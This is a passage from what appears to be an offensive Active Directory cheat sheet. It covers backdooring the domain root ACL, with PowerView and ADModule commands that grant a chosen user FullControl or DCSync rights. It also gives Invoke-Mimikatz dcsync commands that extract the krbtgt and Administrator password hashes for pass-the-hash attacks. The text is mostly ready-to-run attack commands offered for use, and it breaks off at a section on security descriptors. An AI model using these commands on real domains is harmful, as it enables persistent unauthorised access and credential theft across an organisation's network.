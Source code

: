 ## Abusing FullControl ACL in domain root

There are even more intereting ACLs which can be abused. With DA privileges, the ACL for the domain root can be modified to provide useful rights like FullControl.
 

First, add full control rights:

* PowerView:
```powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=corp,DC=local' -PrincipalSamAccountName user1 -Rights All -Verbose
```

* ADModule:
```powershell
Set-ADACL -DistinguishedName 'DC=corp,DC=local' -Principal user1 -Verbose
```

## DCSync Backdoor

There are even more intereting ACLs which can be abused. With DA privileges, the ACL for the domain root can be modified to provide useful rights like the ability to run `DCSync`.

* PowerView:
```powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=corp,DC=local' -PrincipalSamAccountName user1 -Rights DCSync -Verbose
```
* PowerView (dev):
```
Add-DomainObjectAcl -TargetIdentity 'DC=corp,DC=local' -PrincipalIdentity user1 -Rights DCSync 
```

* ADModule:
```powershell
Set-ADACL -DistinguishedName 'DC=corp,DC=local' -Principal user1 -GUIDRight DCSync -Verbose
```

> **Note**: There are three special rights which are required to DCSync:
>
> `Replicating Directory Changes`, `Replicating Directory Changes All` and `Replicating Directory Changes In Filtered Set`.

And then execute DCSync:

```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:corp\krbtgt"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:corp\Administrator"'
```
So once we have obtained the hash NTLM of *any user* of the domain, `PassTheHash` or `Over-PassTheHash` attack can be executed.

# ACL Security Descriptors

It is possible to modify Security Descriptors such as security information like owner, primary group, DACL and SACL of multiple remote access methods to allow access to non-admin users.
